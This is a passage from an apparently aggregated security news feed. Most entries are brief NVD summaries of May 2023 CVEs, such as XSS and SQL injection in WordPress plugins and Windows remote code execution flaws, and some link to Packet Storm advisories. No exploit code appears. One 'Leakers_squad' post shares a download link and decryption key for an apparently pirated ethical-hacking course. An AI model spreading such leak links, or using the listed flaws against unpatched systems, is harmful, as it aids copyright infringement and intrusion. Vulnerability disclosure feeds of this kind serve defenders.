* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46861

<blockquote>
‼ CVE-2022-46861 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Zia Imtiaz Custom Login Page Styler for WordPress plugin &lt;&#61; 6.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47137

<blockquote>
‼ CVE-2022-47137 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in WPManageNinja LLC Ninja Tables plugin &lt;&#61; 4.3.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22711

<blockquote>
‼ CVE-2023-22711 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Agent Evolution IMPress Listings plugin &lt;&#61; 2.6.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27889

<blockquote>
‼ CVE-2023-27889 ‼

Cross-site request forgery (CSRF) vulnerability in LIQUID SPEECH BALLOON versions prior to 1.2 allows a remote unauthenticated attacker to hijack the authentication of a user and to perform unintended operations by having a user view a malicious page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24392

<blockquote>
‼ CVE-2023-24392 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in I Thirteen Web Solution Full Width Banner Slider Wp plugin &lt;&#61; 1.1.7 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30777

<blockquote>
‼ CVE-2023-30777 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in WP Engine Advanced Custom Fields Pro, WP Engine Advanced Custom Fields plugins &lt;&#61; 6.1.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28127

<blockquote>
‼ CVE-2023-28127 ‼

A path traversal vulnerability exists in Avalanche version 6.3.x and below that when exploited could result in possible information disclosure.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25831

<blockquote>
‼ CVE-2023-25831 ‼

There is a reflected XSS vulnerability in Esri Portal for ArcGIS versions 10.9.1, 10.8.1 and 10.7.1 which may allow a remote, unauthenticated attacker to create a crafted link which when clicked could potentially execute arbitrary JavaScript code in the victim’s browser.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30057

<blockquote>
‼ CVE-2023-30057 ‼

Multiple stored cross-site scripting (XSS) vulnerabilities in FICO Origination Manager Decision Module 4.8.1 allow attackers to execute arbitrary web scripts or HTML via a crafted payload.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24953

<blockquote>
‼ CVE-2023-24953 ‼

Microsoft Excel Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29341

<blockquote>
‼ CVE-2023-29341 ‼

AV1 Video Extension Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29325

<blockquote>
‼ CVE-2023-29325 ‼

Windows OLE Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24955

<blockquote>
‼ CVE-2023-24955 ‼

Microsoft SharePoint Server Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28283

<blockquote>
‼ CVE-2023-28283 ‼

Windows Lightweight Directory Access Protocol (LDAP) Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29340

<blockquote>
‼ CVE-2023-29340 ‼

AV1 Video Extension Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24903

<blockquote>
‼ CVE-2023-24903 ‼

Windows Secure Socket Tunneling Protocol (SSTP) Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24943

<blockquote>
‼ CVE-2023-24943 ‼

Windows Pragmatic General Multicast (PGM) Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24950

<blockquote>
‼ CVE-2023-24950 ‼

Microsoft SharePoint Server Spoofing Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24941

<blockquote>
‼ CVE-2023-24941 ‼

Windows Network File System Remote Code Execution Vulnerability

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25830

<blockquote>
‼ CVE-2023-25830 ‼

There is a reflected XSS vulnerability in Esri Portal for ArcGIS versions 10.9.1, 10.8.1 and 10.7.1 which may allow a remote, unauthenticated attacker to create a crafted link which when clicked could potentially execute arbitrary JavaScript code in the victim’s browser.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-09`

<blockquote>
Spryker Commerce OS 1.0 SQL Injection
https://packetstormsecurity.com/files/172257/SCHUTZWERK-SA-2023-001.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172257/SCHUTZWERK-SA-2023-001.txt">
https://packetstormsecurity.com/files/172257/SCHUTZWERK-SA-2023-001.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2594

<blockquote>
‼ CVE-2023-2594 ‼

A vulnerability, which was classified as critical, was found in SourceCodester Food Ordering Management System 1.0. Affected is an unknown function of the component Registration. The manipulation of the argument username leads to sql injection. It is possible to launch the attack remotely. The identifier of this vulnerability is VDB-228396.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2595

<blockquote>
‼ CVE-2023-2595 ‼

A vulnerability has been found in SourceCodester Billing Management System 1.0 and classified as critical. Affected by this vulnerability is an unknown functionality of the file ajax_service.php of the component POST Parameter Handler. The manipulation of the argument drop_services leads to sql injection. The attack can be launched remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-228397 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-27409

<blockquote>
‼ CVE-2023-27409 ‼

A vulnerability has been identified in SCALANCE LPE9403 (All versions &lt; V2.1). A path traversal vulnerability was found in the `deviceinfo` binary via the `mac` parameter. This could allow an authenticated attacker with access to the SSH interface on the affected device to read the contents of any file named `address`.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46844

<blockquote>
‼ CVE-2022-46844 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in PixelGrade PixFields plugin &lt;&#61; 0.7.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46864

<blockquote>
‼ CVE-2022-46864 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in Umair Saleem Woocommerce Custom Checkout Fields Editor With Drag &amp; Drop plugin &lt;&#61; 0.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23647

<blockquote>
‼ CVE-2023-23647 ‼

Auth. (author+) Stored Cross-Site Scripting (XSS) vulnerability in Sk. Abul Hasan Team Member – Team with Slider plugin &lt;&#61; 4.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29103

<blockquote>
‼ CVE-2023-29103 ‼

A vulnerability has been identified in SIMATIC Cloud Connect 7 CC712 (All versions &gt;&#61; V2.0 &lt; V2.1), SIMATIC Cloud Connect 7 CC712 (All versions &lt; V2.1), SIMATIC Cloud Connect 7 CC716 (All versions &gt;&#61; V2.0 &lt; V2.1), SIMATIC Cloud Connect 7 CC716 (All versions &lt; V2.1). The affected device uses a hard-coded password to protect the diagnostic files. This could allow an authenticated attacker to access protected data.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46858

<blockquote>
‼ CVE-2022-46858 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in Amin A.Rezapour Product Specifications for Woocommerce plugin &lt;&#61; 0.6.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-29104

<blockquote>
‼ CVE-2023-29104 ‼

A vulnerability has been identified in SIMATIC Cloud Connect 7 CC712 (All versions &gt;&#61; V2.0 &lt; V2.1), SIMATIC Cloud Connect 7 CC716 (All versions &gt;&#61; V2.0 &lt; V2.1). The filename in the upload feature of the web based management of the affected device is susceptible to a path traversal vulnerability. This could allow an authenticated privileged remote attacker to overwrite any file the Linux user `ccuser` has write access to, or to download any file the Linux user `ccuser` has read-only access to.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23793

<blockquote>
‼ CVE-2023-23793 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Eightweb Interactive Read More Without Refresh plugin &lt;&#61; 3.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23862

<blockquote>
‼ CVE-2023-23862 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Gopi Ramasamy Vertical scroll recent post plugin &lt;&#61; 14.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23734

<blockquote>
‼ CVE-2023-23734 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in David Voswinkel Userlike – WordPress Live Chat plugin &lt;&#61; 2.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23732

<blockquote>
‼ CVE-2023-23732 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Joel James Disqus Conditional Load plugin &lt;&#61; 11.0.6 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41640

<blockquote>
‼ CVE-2022-41640 ‼

Auth. (subscriber+) Stored Cross-Site Scripting (XSS) vulnerability in Rymera Web Co Wholesale Suite plugin &lt;&#61; 2.1.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23733

<blockquote>
‼ CVE-2023-23733 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Joel James Lazy Social Comments plugin &lt;&#61; 2.0.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23883

<blockquote>
‼ CVE-2023-23883 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in David Gwyer WP Content Filter plugin &lt;&#61; 3.0.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23664

<blockquote>
‼ CVE-2023-23664 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in ConvertBox ConvertBox Auto Embed WordPress plugin &lt;&#61; 1.0.19 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2591

<blockquote>
‼ CVE-2023-2591 ‼

Code Injection in GitHub repository nilsteampassnet/teampass prior to 3.0.7.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23884

<blockquote>
‼ CVE-2023-23884 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Kanban for WordPress Kanban Boards for WordPress plugin &lt;&#61; 2.5.20 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24372

<blockquote>
‼ CVE-2023-24372 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in USB Memory Direct Simple Custom Author Profiles plugin &lt;&#61; 1.0.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23863

<blockquote>
‼ CVE-2023-23863 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Black and White Digital Ltd TreePress – Easy Family Trees &amp; Ancestor Profiles plugin &lt;&#61; 2.0.22 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-09`

<blockquote>
A smorgasbord of a bug chain: postMessage, JSONP, WAF bypass, DOM-based XSS, CORS, CSRF...
https://www.reddit.com/r/netsec/comments/13ckj59/a_smorgasbord_of_a_bug_chain_postmessage_jsonp/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/13ckj59/a_smorgasbord_of_a_bug_chain_postmessage_jsonp/">
https://www.reddit.com/r/netsec/comments/13ckj59/a_smorgasbord_of_a_bug_chain_postmessage_jsonp/
</a>
<blockquote>
Posted by u/poltess0 - No votes and no comments
</blockquote>
</td></tr></table>

---

# Leakers_squad
`2023-05-09`

* https://t.me/leakers_Squad/1841

<blockquote>
✅CERTIFIED ETHICAL HACKER  (CEH) V.12

🌀 Intro To Ethical Hacking :
🌀 Recon Techniques - Footprinting And Recon :
🌀 Recon Techniques - Scanning
🌀 Recon Techniques - Enumeration :
🌀 System Hacking Phases And Attack Techniques - Vulnerability Analysis :
🌀 System Hacking Phases And Attack Techniques - System Hacking :
🌀 System Hacking Phases And Attack Techniques - Malware Threats :
🌀 Network And Perimeter Hacking - Sniffing : 
🌀 Network And Perimeter Hacking - Social Engineering :
🌀 Network And Perimeter Hacking - Denial Of Service :
🌀 Network And Perimeter Hacking - Session Hijacking :
🌀 Network And Perimeter Hacking - Evading Firewalls, Ids, And Honeypots :
🌀 Web Application Hacking - Hacking Web Servers :
🌀 Web Application Hacking - Hacking Web Applications :
🌀 Web Application Hacking - Sql Injection :
🌀 Wireless Network Hacking - Hacking Wireless Networks :
🌀 Mobile Platform, Iot, And Ot Hacking - Hacking Mobile Platforms :
🌀 Mobile Platform, Iot, And Ot Hacking - Iot And Ot Hacking :
🌀 Cloud Computing - Cloud Computing :
🌀 Cryptography - Cryptography :

🔗 Download Link : 
https://mega.nz/folder/xacxzDxI&#35;        

get decryption Key : https://t.me/Starkgroups/440175

Contact for posting these content in your channel @Mr_Neophyte

Share with Your Friends and Team✔️

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

<table><tr><td><b>→</b><a href="https://mega.nz/folder/xacxzDxI">
https://mega.nz/folder/xacxzDxI
</a>
</td></tr></table>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31406

<blockquote>
‼ CVE-2023-31406 ‼

Due to insufficient input validation, SAP BusinessObjects Business Intelligence Platform - versions 420, 430, allows an unauthenticated attacker to redirect users to untrusted site using a malicious link. On successful exploitation, an attacker can view or modify information causing a limited impact on confidentiality and integrity of the application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30741

<blockquote>
‼ CVE-2023-30741 ‼

Due to insufficient input validation, SAP BusinessObjects Business Intelligence Platform - versions 420, 430, allows an unauthenticated attacker to redirect users to untrusted site using a malicious link. On successful exploitation, an attacker can view or modify information causing a limited impact on confidentiality and integrity of the application.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22710

<blockquote>
‼ CVE-2023-22710 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in chilidevs Return and Warranty Management System for WooCommerce plugin &lt;&#61; 1.2.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24376

<blockquote>
‼ CVE-2023-24376 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Nico Graff WP Simple Events plugin &lt;&#61; 1.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23894

<blockquote>
‼ CVE-2023-23894 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Surbma Surbma | GDPR Proof Cookie Consent &amp; Notice Bar plugin &lt;&#61; 17.5.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-31183

<blockquote>
‼ CVE-2023-31183 ‼

Cybonet PineApp Mail Secure A reflected cross-site scripting (XSS) vulnerability was identified in the product, using an unspecified endpoint.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30334

<blockquote>
‼ CVE-2023-30334 ‼

AsmBB v2.9.1 was discovered to contain multiple cross-site scripting (XSS) vulnerabilities via the MiniMag.asm and bbcode.asm libraries.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2513

<blockquote>
‼ CVE-2023-2513 ‼

A use-after-free vulnerability was found in the Linux kernel's ext4 filesystem in the way it handled the extra inode size for extended attributes. This flaw could allow a privileged local user to cause a system crash or other undefined behaviors.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30855

<blockquote>
‼ CVE-2023-30855 ‼

Pimcore is an open source data and experience management platform. Versions of Pimcore prior to 10.5.18 are vulnerable to path traversal. The impact of this path traversal and arbitrary extension is limited to creation of arbitrary files and appending data to existing files. When combined with the SQL Injection, the exported data `RESTRICTED DIFFUSION 9 / 9` can be controlled and a webshell can be uploaded. Attackers can use that to execute arbitrary PHP code on the server with the permissions of the webserver. Users may upgrade to version 10.5.18 to receive a patch or, as a workaround, apply the patch manually.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2583

<blockquote>
‼ CVE-2023-2583 ‼

Code Injection in GitHub repository jsreport/jsreport prior to 3.11.3.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28493

<blockquote>
‼ CVE-2023-28493 ‼

Auth (subscriber+) Reflected Cross-Site Scripting (XSS) vulnerability in Macho Themes NewsMag theme &lt;&#61; 2.4.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24408

<blockquote>
‼ CVE-2023-24408 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Ecwid Ecommerce Ecwid Ecommerce Shopping Cart plugin &lt;&#61; 6.11.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30092

<blockquote>
‼ CVE-2023-30092 ‼

SourceCodester Online Pizza Ordering System v1.0 is vulnerable to SQL Injection via the QTY parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1011

<blockquote>
‼ CVE-2023-1011 ‼

The AI ChatBot WordPress plugin before 4.4.5 does not escape most of its settings before outputting them back in the dashboard, and does not have a proper CSRF check, allowing attackers to make a logged in admin set XSS payloads in them.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1651

<blockquote>
‼ CVE-2023-1651 ‼

The AI ChatBot WordPress plugin before 4.4.9 does not have authorisation and CSRF in the AJAX action responsible to update the OpenAI settings, allowing any authenticated users, such as subscriber to update them. Furthermore, due to the lack of escaping of the settings, this could also lead to Stored XSS

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-05-08`

<blockquote>
FICO Origination Manager Decision Module 4.8.1 XSS / Session Hijacking
https://packetstormsecurity.com/files/172192/ficoomdm481-xss.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172192/ficoomdm481-xss.txt">
https://packetstormsecurity.com/files/172192/ficoomdm481-xss.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-05-08`

<blockquote>
Found Information System 1.0 SQL Injection
https://packetstormsecurity.com/files/172187/fis10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/172187/fis10-sql.txt">
https://packetstormsecurity.com/files/172187/fis10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25021

<blockquote>
‼ CVE-2023-25021 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in FareHarbor FareHarbor for WordPress plugin &lt;&#61; 3.6.6 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23668

<blockquote>
‼ CVE-2023-23668 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in GiveWP plugin &lt;&#61; 2.25.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-28169

<blockquote>
‼ CVE-2023-28169 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in CoreFortress Easy Event calendar plugin &lt;&#61; 1.0 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46799

<blockquote>
‼ CVE-2022-46799 ‼

Unauth. Reflected Cross-Site Scripting (XSS) vulnerability in I Thirteen Web Solution Easy Testimonial Slider and Form plugin &lt;&#61; 1.0.15 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45812

<blockquote>
‼ CVE-2022-45812 ‼

Auth. (subscriber+) Stored Cross-Site Scripting (XSS) vulnerability in Martin Lees Exxp plugin &lt;&#61; 2.6.8 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25452

<blockquote>
‼ CVE-2023-25452 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Michael Pretty (prettyboymp) CMS Press plugin &lt;&#61; 0.2.3 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25052

<blockquote>
‼ CVE-2023-25052 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Teplitsa Yandex.News Feed by Teplitsa plugin &lt;&#61; 1.12.5 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-30018

<blockquote>
‼ CVE-2023-30018 ‼

Judging Management System v1.0 is vulnerable to SQL Injection. via /php-jms/review_se_result.php?mainevent_id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24400

<blockquote>
‼ CVE-2023-24400 ‼

Auth. (contributor+) Cross-Site Scripting (XSS) vulnerability in Hu-manity.Co Cookie Notice &amp; Compliance for GDPR / CCPA plugin &lt;&#61; 2.4.6 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25491

<blockquote>
‼ CVE-2023-25491 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Samuel Marshall JCH Optimize plugin &lt;&#61; 3.2.2 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26517

<blockquote>
‼ CVE-2023-26517 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Jeff Starr Dashboard Widgets Suite plugin &lt;&#61; 3.2.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26519

<blockquote>
‼ CVE-2023-26519 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Alex Benfica Publish to Schedule plugin &lt;&#61; 4.5.4 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-11`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2550

<blockquote>
‼ CVE-2023-2550 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository thorsten/phpmyfaq prior to 3.1.13.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-05`

